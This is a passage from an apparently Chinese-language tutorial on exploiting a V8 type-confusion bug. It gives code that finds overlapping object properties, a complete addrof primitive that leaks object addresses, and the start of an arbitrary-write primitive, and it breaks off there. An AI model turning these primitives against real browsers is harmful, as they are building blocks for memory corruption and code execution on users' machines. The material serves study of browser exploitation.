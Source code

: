 ```plain
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and p${p2} overlap!`);
```

很容易可以找到我们需要的两个属性。

```plain
[+] Finding Overlapping Properties...  
[+] Properties b12 and b21 overlap!
```

### Addr Of

`Addrof`是一个在 V8 利用中很常见的原语，用来泄露一个`obj`的地址。当我们有类型混淆漏洞时，这个原语的实现就十分简单，在前面也介绍过。我们将上一步中得到的第一个属性记为`p1`，第二个属性记为`p2`，由于对`p1`的访问实际上是对`p2`内容的访问，设置属性`p1`为`Number`，属性`p2`为想要泄露地址的`Object obj`，通过读取`p1`就可以读取出`obj`的地址。

```plain
function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}
```

上面的代码中，`vuln`函数访问了`p1`的`x1`，在产生优化之后，会访问到`p2`的`y`也就是`obj`，从而以浮点数返回`obj`的地址。

### Arbitrary Write

同样，我们可以构造一个`Object`，如下面的`o`，其中的各个属性均为`Number`。

```plain
let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;
```
